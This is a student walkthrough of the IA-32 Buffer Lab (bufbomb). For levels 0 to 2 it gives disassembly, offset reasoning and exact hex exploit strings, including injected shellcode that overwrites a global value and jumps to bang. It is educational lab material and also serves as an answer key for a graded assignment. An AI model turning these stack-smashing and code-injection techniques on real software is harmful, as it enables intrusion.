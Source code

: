 # Buffer Lab

> This assignment will help you develop a detailed understanding of IA-32 calling
> conventions and stack organization. It involves applying a series of buffer
> overflow attacks on an executable file bufbomb in the lab directory.

## Level 0: Candle/smoke

Target: get BUFBOMB to execute the code for `smoke` when getbuf executes its return statement

Get `smoke` address from assembly code: `08049415`

```assembly
# buf
08049c12 <getbuf>:
 8049c12:	55                   	push   %ebp
 8049c13:	89 e5                	mov    %esp,%ebp
 8049c15:	83 ec 38             	sub    $0x38,%esp
 8049c18:	83 ec 0c             	sub    $0xc,%esp
 8049c1b:	8d 45 d2             	lea    -0x2e(%ebp),%eax
 8049c1e:	50                   	push   %eax
 8049c1f:	e8 5e fa ff ff       	call   8049682 <Gets>
 8049c24:	83 c4 10             	add    $0x10,%esp
 8049c27:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c2c:	c9                   	leave
 8049c2d:	c3                   	ret
```

`lea -0x2e(%ebp),%eax` => in `buf[M]`, the number of M is 46 => plus 4 bytes in `%ebp`,
the return address should begin at 50.

That is, in this string, the first 50 bytes mean nothing, 50~53 mean the return address.
So, the string should be:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 15 94 04 08
```

## Level 1: Sparkler/fizz

Target: get BUFBOMB to execute the code for `fizz` with argument `cookie`

Assembly code of `fizz`:

```assembly
08049442 <fizz>:
 8049442:	55                   	push   %ebp
 8049443:	89 e5                	mov    %esp,%ebp
 8049445:	83 ec 08             	sub    $0x8,%esp
 8049448:	8b 55 08             	mov    0x8(%ebp),%edx
 804944b:	a1 90 d1 04 08       	mov    0x804d190,%eax
 8049450:	39 c2                	cmp    %eax,%edx      # check if %edx equals to cookie locating in 0x804d190
 8049452:	75 22                	jne    8049476 <fizz+0x34>
 8049454:	83 ec 08             	sub    $0x8,%esp
 8049457:	ff 75 08             	push   0x8(%ebp)
 804945a:	68 23 b0 04 08       	push   $0x804b023
 804945f:	e8 1c fc ff ff       	call   8049080 <printf@plt> # print fizz
 8049464:	83 c4 10             	add    $0x10,%esp
 8049467:	83 ec 0c             	sub    $0xc,%esp
 804946a:	6a 01                	push   $0x1
 804946c:	e8 6f 09 00 00       	call   8049de0 <validate>
 8049471:	83 c4 10             	add    $0x10,%esp
 8049474:	eb 13                	jmp    8049489 <fizz+0x47>
 8049476:	83 ec 08             	sub    $0x8,%esp
 8049479:	ff 75 08             	push   0x8(%ebp)
 804947c:	68 44 b0 04 08       	push   $0x804b044
 8049481:	e8 fa fb ff ff       	call   8049080 <printf@plt> # print buzz, which is wrong
 8049486:	83 c4 10             	add    $0x10,%esp
 8049489:	83 ec 0c             	sub    $0xc,%esp
 804948c:	6a 00                	push   $0x0
 804948e:	e8 bd fc ff ff       	call   8049150 <exit@plt>
```

Similarly, the first 50 bytes mean nothing. 50~53 mean the address of `fizz` which is `08049442`.
54~57 mean nothing. 58~61 mean the cookie `20ba0521`.
Therefore, the string should be:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 42 94 04 08 00 00
00 00 21 05 ba 20
```

## Level 2: Firecracker/bang

Target: get BUFBOMB to execute the code for bang with setting global_value as cookie

Assembly code of `bang`:

```assembly
08049493 <bang>:
 8049493:	55                   	push   %ebp
 8049494:	89 e5                	mov    %esp,%ebp
 8049496:	83 ec 08             	sub    $0x8,%esp
 8049499:	a1 98 d1 04 08       	mov    0x804d198,%eax
 804949e:	89 c2                	mov    %eax,%edx
 80494a0:	a1 90 d1 04 08       	mov    0x804d190,%eax
 80494a5:	39 c2                	cmp    %eax,%edx           # compare *0x804d198 and *0x804d190
 80494a7:	75 25                	jne    80494ce <bang+0x3b>
 80494a9:	a1 98 d1 04 08       	mov    0x804d198,%eax
 80494ae:	83 ec 08             	sub    $0x8,%esp
 80494b1:	50                   	push   %eax
 80494b2:	68 64 b0 04 08       	push   $0x804b064
 80494b7:	e8 c4 fb ff ff       	call   8049080 <printf@plt>
 80494bc:	83 c4 10             	add    $0x10,%esp
 80494bf:	83 ec 0c             	sub    $0xc,%esp
 80494c2:	6a 02                	push   $0x2
 80494c4:	e8 17 09 00 00       	call   8049de0 <validate>
 80494c9:	83 c4 10             	add    $0x10,%esp
 80494cc:	eb 16                	jmp    80494e4 <bang+0x51>
 80494ce:	a1 98 d1 04 08       	mov    0x804d198,%eax
 80494d3:	83 ec 08             	sub    $0x8,%esp
 80494d6:	50                   	push   %eax
 80494d7:	68 89 b0 04 08       	push   $0x804b089
 80494dc:	e8 9f fb ff ff       	call   8049080 <printf@plt>
 80494e1:	83 c4 10             	add    $0x10,%esp
 80494e4:	83 ec 0c             	sub    $0xc,%esp
 80494e7:	6a 00                	push   $0x0
 80494e9:	e8 62 fc ff ff       	call   8049150 <exit@plt>
```

According to gdb, <global_value> locates in `0x804d198`, while <cookie> locates in `0x804d190`.
We need to set <golobal_value> to <cookie> value via assembly code, and finally step into
`bang` locating in `0x08049493`:

```assembly
mov 0x804d190,%eax
mov %eax,0x804d198
push 0x08049493
ret
```

Store the assembly code to <buf> and return to there so that program can execute it.
Before doing that, we need to find out where it is => use gdb with `x $eax` => `0x5568fa12`

* 0~15: assembly code
* 16~49: nothing
* 50~53: buf address

```
a1 90 d1 04 08
a3 98 d1 04 08
ff 35 93 94 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00
12 fa 68 55
```
